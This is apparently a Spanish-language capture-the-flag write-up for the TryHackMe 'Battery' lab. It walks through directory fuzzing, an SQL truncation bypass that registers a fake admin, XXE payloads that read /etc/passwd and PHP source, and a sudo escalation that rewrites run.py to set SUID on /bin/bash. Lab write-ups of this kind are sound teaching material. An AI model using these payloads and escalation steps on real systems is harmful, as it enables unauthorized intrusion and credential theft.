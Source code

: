 ```yaml
---
layout: post
title: Battery -THM
subtitle: "Battery -THM"
tags: [thm,sql,xxe]
---
```


## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

Descarga de binario en la ruta `http:///10.10.24.164/report`

![report](../assets/imgs/battery/report.png)

### Fuzzing web

```
❯ dirsearch -u "http://10.10.24.164/" -w /usr/share/wordlists/dirb/common.txt -e php,txt,html -f -t 60
[...]
[11:06:43] 200 -    1KB - /acc.php
[11:06:44] 200 -  663B  - /admin.php
[11:06:45] 200 -  663B  - /admin.php/
[11:07:02] 302 -  908B  - /dashboard.php  ->  admin.php
[11:07:15] 200 -    2KB - /forms.php
[11:07:21] 403 -  285B  - /icons/
[11:07:21] 200 -  406B  - /index.html
[11:07:30] 302 -    0B  - /logout.php  ->  admin.php
[11:07:53] 200 -  715B  - /register.php
[11:07:54] 200 -   17KB - /report
[11:07:57] 301 -  313B  - /scripts  ->  http://10.10.24.164/scripts/
[11:07:57] 200 -    2KB - /scripts/
[11:07:58] 403 -  293B  - /server-status/
[11:07:58] 403 -  292B  - /server-status
[11:08:15] 302 -    1KB - /with.php  ->  admin.php
```
Posibles usuarios

```
❯ strings report | grep "@bank" | tee users
admin@bank.a
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a
```

### SQL truncation

[https://linuxhint.com/sql-truncation-attack/](https://linuxhint.com/sql-truncation-attack/)

Interptando petición web `register.php`  
Creo una cuenta como usuario administrador obtenido de las cadenas imprimibles del binario `report` que se habia descargado.

`admin@bank.a` tiene 12 caracteres y el tope en el login de la página es 12.  
Por tanto registro un usuario `admin@bank.a  a` con 2 espacios mas y un caracter adicional de esta forma bypasseando la seguridad de registro.

![burp](../assets/imgs/battery/burp.png)

Inicio sesion como usuario `admin@bank.a` 

![admin](../assets/imgs/battery/admin.png)

----

### XML External Entity Attack

> Un ataque de entidad externa XML es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML debilmente configurado.

Parámetro vulnerable `<search>`

![test123](../assets/imgs/battery/test123.png)

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "file:///etc/passwd">
	]>
	<root>
		<name>
			test
		</name>
		<search>
		&payload;
		</search>
	</root>
```

![passwd](../assets/imgs/battery/passwd.png)

### Obteniendo password para cyber

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
	]>
	<root>
		<name>
			test
		</name>
		<search>
			&payload;
		</search>
	</root>
```

![acc](../assets/imgs/battery/acc.png)

```cyber:super#secure&password!```

Conexion por `ssh`

```
ssh cyber@10.10.24.164
```

## Escalada de privilegios

Abusando de permisos mal configurados (sudo)

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ ls -l
total 8
-rw--w---- 1 cyber cyber  85 Nov 15  2020 flag1.txt
-rwx------ 1 root  root  349 Nov 15  2020 run.py
```

Como estoy dentro de la carpeta de mi usuario puedo eliminar el archivo `run.py`, crearlo nuevamente y editarlo.

```
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ ls
flag1.txt
cyber@ubuntu:~$ nano run.py
cyber@ubuntu:~$ cat run.py 
import os
os.system("chmod +s /bin/bash")
os.system("/bin/bash -p")
```

```
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
root@ubuntu:~# whoami
root
root@ubuntu:~# cat /root/root.txt 
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                                battery designed by cyberbot :)
                                                Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859
```
